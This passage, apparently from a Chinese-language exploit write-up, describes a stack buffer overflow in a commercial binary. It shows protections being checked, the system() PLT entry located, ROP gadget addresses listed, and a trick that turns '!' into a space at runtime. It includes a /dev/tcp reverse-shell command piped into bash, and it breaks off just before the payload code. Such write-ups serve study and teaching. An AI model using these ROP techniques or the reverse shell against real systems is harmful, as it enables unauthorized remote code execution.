 PS：

```c
__strcpy_chk((__int64)&filename[6], (__int64)p, 0x200LL);
```

这个地方其实也有溢出6个字节，但是感觉没法利用。。。

## 0x02 构造payload

接下来看看能不能利用。checksec发现没有canary也没有PIE，好消息，这样就能用ROP了。

这里顺便说一下fscanf这个函数，他其实遇到\x00不会截断，但是遇到空格回车就会截断了，所以构造payload的时候要防止这几个字符的出现。

### system函数

看下这个文件，发现有system函数可用，很幸运。

```assembly
.plt:0000000000406D80 ; int system(const char *command)
.plt:0000000000406D80 _system         proc near               ; CODE XREF: sub_409490+9D↓p
.plt:0000000000406D80                                         ; sub_40A660+9F3↓p ...
.plt:0000000000406D80                 jmp     cs:off_68F258
.plt:0000000000406D80 _system         endp
```

我们的目标是，反弹一个shell到本机端口上面，即，执行

```bash
`/bin/sh >& /dev/tcp/127.0.0.1/8080 0>&1`
```

但是，system函数（/bin/dash）好像并不支持>&这种语法，所以要写成

```python
"echo \"/bin/sh >& /dev/tcp/127.0.0.1/8080 0>&1\" | /bin/bash\x00"
```

### ROP

接着开始思考如何构造ROP。

首先我们需要把这个字符串写入到一片内存，然后用这片内存的起始地址作为参数调用system。

用ROPgadget搜索ROP，发现很多gadget可以用（这种商业程序开起优化来能用的gadget就是多啊，一般CTF最多就一个leave\+ret。。。）

但是问题来了，不能出现空格，而这里空格是无法避免的，所以我们可以先写进去一个\!然后动态减1让他变成空格（空格的ASCII就是感叹号减1）

用到的ROP基本上就是套路了，用了pop reg; ret来让寄存器加载我们的数据，然后xchg mem, reg 来把值写入内存。然后sub mem, reg来进行减一操作，具体用到的是

```python
# 0x0000000000408ed5 pop rbp ; ret
# 0x0000000000418fa0 pop rcx ; ret
# 0x000000000046e162 xchg dword ptr [rcx], ebp ; ret
# 0x0000000000462DD6 sub [rdi], cl
# 0x0000000000407912 pop rdi ; ret
```

然后生成payload的代码是
